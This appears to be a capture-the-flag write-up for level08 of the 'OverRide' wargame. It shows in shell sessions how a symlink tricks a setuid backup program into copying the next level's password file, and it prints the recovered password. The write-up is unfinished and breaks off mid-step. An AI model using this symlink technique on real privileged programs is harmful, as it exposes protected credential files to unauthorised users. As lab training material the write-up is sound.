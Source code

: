 # Level08 Walkthrough

## Analyzing the Program with GDB and ghidra
NEED TO GHIDRA 

1. **Whats happening**: 

- This a binary that takes a file in args, and a specific one. Its primary funtion involves generatin a backup of the file within the directory `/backups` and simultaneously logging relevant information to the file named `backups/.log`.

```bash
level08@OverRide:~$ ls
backups  level08

level08@OverRide:~$ ls -la backups/
total 4
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    49 Dec 15 21:26 .log
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: /home/users/level09/.pass

```

- Lets try something :
```bash
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ mkdir -p test
level08@OverRide:~$ ls
backups  level08  test
level08@OverRide:~$ ./level08 test
level08@OverRide:~$ cat backups/.log 
LOG: Starting back up: test
LOG: Finished back up test
```

- Lets try with a file : 
```bash
level08@OverRide:~$ cat > pass
password
level08@OverRide:~$ ./level08 pass
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: pass
LOG: Finished back up pass
level08@OverRide:~$ cat backups/pass
password
```

- We can see that the directory and the file are set with the setuid `level09` users : 
```bash

drwxrwx---+ 1 level09 users   100 Dec 15 21:31 .
drwxrwxrwx+ 1 level08 level08 140 Dec 15 21:31 ..
-rwxrwx---+ 1 level09 users    40 Dec 15 21:32 .log
-r--r-----+ 1 level09 users     9 Dec 15 21:31 pass
-r--r-----+ 1 level09 users     0 Dec 15 21:30 test
```

- So lets use a a symbolic link to bypass the backups : 
```bash
level08@OverRide:~$ ln -s /home/users/level09/.pass passwd
level08@OverRide:~$ ls
backups  level08  pass  passwd  test

level08@OverRide:~$ ./level08 passwd
level08@OverRide:~$ cat backups/passwd 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

```
---


## Moving to level09

1. **Swith User to level09**:
    Run ```su level09```
```

2. **Authenticate with the Password**:
    
   
 